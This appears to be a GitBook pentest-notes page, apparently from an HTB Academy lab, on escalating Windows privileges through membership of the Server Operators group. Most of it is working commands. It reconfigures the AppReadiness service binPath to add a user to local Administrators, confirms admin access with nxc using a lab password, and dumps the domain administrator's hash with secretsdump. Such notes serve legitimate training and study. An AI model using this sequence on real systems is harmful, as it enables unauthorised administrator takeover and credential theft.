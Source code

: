 # Server Operators

Membership of this group confers the powerful **SeBackupPrivilege** and **SeRestorePrivilege** privileges and the ability to control local services.

## Querying the AppReadiness Service

```
sc qc AppReadiness
```

<figure><img src="../../../.gitbook/assets/Server Operators.png" alt=""><figcaption></figcaption></figure>

We can use the service viewer/controller **PsService**, which is part of the Sysinternals suite, to check permissions on the service. PsService works much like the sc utility and can display service status and configurations and also allow you to start, stop, pause, resume, and restart services both locally and on remote hosts.

```
PsService.exe security AppReadiness
```

This confirms that the Server Operators group has SERVICE\_ALL\_ACCESS access right, which gives us full control over this service.

### Modify the service binary path

```
sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"
```

Now start the service and it will fail:

```
sc start AppReadiness
```

Check administrators group:&#x20;

```
net localgroup Administrators
```

&#x20;our account will be added.

Check admin privilege with nxc:

```
nxc smb 10.129.43.9 -u server_adm -p 'HTB_@cademy_stdnt!'
```

Get hashes:

```
secretsdump.py server_adm@10.129.43.9 -just-dc-user administrator
```
